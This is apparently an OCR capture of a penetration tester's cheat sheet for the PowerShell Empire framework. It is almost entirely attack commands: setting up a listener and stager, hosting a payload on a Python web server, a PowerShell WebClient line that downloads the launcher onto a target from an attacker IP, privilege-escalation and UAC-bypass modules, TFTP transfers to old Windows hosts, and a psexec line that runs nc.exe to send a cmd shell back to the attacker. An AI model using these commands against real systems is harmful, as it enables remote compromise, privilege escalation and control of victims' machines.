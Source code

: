 ### Empire
```
powershell-empire
listeners
uselistener http
set Host http://MYIPADDRESS
execute

launcher powershell INSERTIPADDRESS

Copy and paste output in terminal

***If you need a stager***
usestager multi/launcher (or whatever can run on host)
set Base64 False
set Listener http
set OutFile /tmp/launcher.ps1
execute

Upload and run payload
cd /tmp
python -m SimpleHTTPServer 8888
python3 -m http.server 8888

powershell -c (New-Object System.Net.WebClient).DownloadFile('http://INSERTIPADDRESS:8888/launcher.bat','launcher.bat')

Once you get a connection
agents
interact <agent_name>
set Agent <agent_name>
usemodule privesc/powerup/allchecks
execute 
***Let run for a few minutes

Windows XP and Server 2003:
Host:
atftpd --daemon --port 69 /root/Dropbox/Scripts/Post_Windows/uploads
Target:
tftp -i INSERTIPADDRESS GET wget.exe

If you get creds:
nc -lvnp 6666
psexec -u alice -p aliceishere -c "nc.exe" MYIPADDRESS 6666 -e cmd 

Else:
bypassuac INSERTIPADDRESS

usemodule privesc/bypassuac_wscript
set Listener INSERTIPADDRESS
execute
```
